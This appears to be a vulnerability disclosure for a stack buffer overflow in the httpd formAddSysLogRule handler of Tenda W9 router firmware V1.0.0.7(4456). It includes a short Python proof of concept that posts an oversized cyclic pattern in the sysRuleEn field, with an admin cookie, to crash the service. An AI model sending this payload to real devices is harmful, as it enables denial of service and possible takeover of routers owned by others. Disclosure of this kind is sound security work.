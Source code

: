 # Tenda W9 V1.0.0.7(4456) AP has stack buffer overflow vulnerability
## Information

Vendor：https://www.tendacn.com/

Firmware：https://www.tenda.com.cn/download/detail-2986.html

## Affected Version
V1.0.0.7(4456)
## Vulnerability Analysis
The following image displays the code for a stack buffer overflow vulnerability in the `formAddSysLogRule` function of `httpd`. The value of the `sysRulenEn` parameter will be concatenated ​​to local variable `str_1`, which will cause stack buffer overflow. 

![code](./code.png)
## POC
```python
import requests
from pwn import *
url = "http://192.168.0.1/goform/AddSysLogRule"

payload = { 
    'op': 'add',
    'logIp': '1',
    'logPort': '1',
    'sysRuleEn': cyclic(5000)
    }

headers = {
    'Cookie':'w9v1_user=admin;'
}
requests.request("POST", url, data=payload, headers=headers)
```
## NOTE
The vendor was contacted early about this disclosure but did not respond in any way.